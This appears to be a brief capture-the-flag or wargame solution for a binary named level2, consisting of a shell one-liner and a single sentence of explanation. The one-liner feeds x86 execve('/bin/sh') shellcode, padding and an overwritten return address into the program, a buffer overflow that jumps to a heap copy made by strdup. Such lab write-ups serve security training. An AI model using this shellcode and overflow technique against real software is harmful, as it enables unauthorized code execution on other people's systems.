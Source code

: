 ```shell
(cat <(python -c "print('\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + 'A' * 59 + '\x08\xa0\x04\x08')") -) | ./level2
```

Bof to address in the heap using gets + strdup exploit to avoid check on return value.
